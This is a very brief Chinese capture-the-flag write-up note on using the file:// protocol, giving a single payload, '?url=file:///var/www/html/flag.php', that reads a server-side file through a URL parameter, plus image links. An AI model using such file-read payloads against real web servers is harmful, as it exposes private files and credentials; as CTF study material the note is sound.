 # 知识点：
file://协议的使用
# 思路：
payload
```
?url=file:///var/www/html/flag.php
```
![image.png](./images/20231017_2354429644.png)
